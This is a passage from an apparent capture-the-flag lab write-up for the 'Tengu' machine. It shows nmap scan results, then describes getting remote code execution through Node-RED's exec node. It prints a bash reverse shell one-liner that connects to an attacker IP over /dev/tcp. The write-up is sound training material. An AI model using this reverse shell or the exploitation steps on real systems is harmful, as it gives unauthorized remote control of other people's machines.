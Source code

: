 ```
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Not valid before: 2025-01-11T16:03:15
|_Not valid after:  2025-07-13T16:03:15
|_ssl-date: 2025-01-12T16:10:35+00:00; -1m20s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: SQL
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: SQL.tengu.vl
|   DNS_Tree_Name: tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-12T16:10:30+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1m20s, deviation: 0s, median: -1m20s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```
```
└─$ nmap -sC -sV -p22,1880 10.10.157.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 21:10 +05
Nmap scan report for 10.10.157.39
Host is up (0.093s latency).

PORT     STATE    SERVICE      VERSION
22/tcp   filtered ssh
1880/tcp filtered vsat-control

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds

```

## Nodered.tengu.vl
On port 1880 we find [Node-Red](https://nodered.org/) application running

![](1.png)

There's a [blog](https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/), that explains how to gain RCE in Node-Red. Let's try to exploit it. We need to use `exec` node/function. 

![](2.png)

Let's host reverse shell file
```
/bin/bash -i >& /dev/tcp/10.8.4.147/6666 0>&1
```

Start listener and set command in Node-Red and deploy the workflow
